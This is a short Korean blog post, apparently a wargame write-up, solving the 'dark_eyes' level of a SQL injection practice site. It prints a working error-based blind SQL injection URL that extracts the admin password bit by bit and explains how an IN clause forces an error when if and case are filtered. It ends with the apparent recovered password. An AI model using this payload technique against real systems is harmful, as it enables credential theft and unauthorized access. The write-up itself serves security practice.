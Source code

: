 ```yaml
---
layout: post
title: LOS DARKEYES 
date: 2015-10-24 23:17:00 +0900
category: Hacking
---
```

```
http://los.sandbox.cash/chall/dark_eyes_54dda5c7a8bff987a29bd6fc9b2aa729.php?pw=%27or%20id=%27admin%27%20and%20substr(lpad(bin(ord(substr(pw,1,1))),8,%270%27),1,1)%20in%20(0,(select%201%20union%20select%202))%23
```



if와 case가 막혀있으므로 in 을 사용한다. 이것도 처음에 풀땐 함수찾는라 꽤 헤맸다.

왠 러시아 형님 블로그에 들어갔다.



쿼리를 해석해 보면 id가 admin이면서 pw의 값을 이진값으로 가져와서 그 값이 0인지 1인지 in 함수 안에서 비교한후 

0 in (0,(select 1 union select 2))%23이렇게 되면 select 1 union select 2를 실행을 안하지만

1 in (0,(select 1 union select 2))%23이렇게 되면 select 1 union select 2를 실행해서 에러가 난다. 이걸로 비교를 하는것이다. 



5b2a5e3d



